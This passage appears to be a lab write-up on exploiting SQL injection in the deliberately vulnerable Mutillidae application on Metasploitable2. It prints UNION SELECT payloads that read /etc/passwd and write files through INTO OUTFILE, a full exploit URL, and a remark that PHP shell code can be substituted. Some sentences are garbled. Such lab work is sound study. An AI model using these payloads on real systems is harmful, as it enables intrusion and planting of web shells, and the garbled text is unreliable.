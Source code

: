 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT :
![alt text](<Screenshot 2025-05-25 221546.png>)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
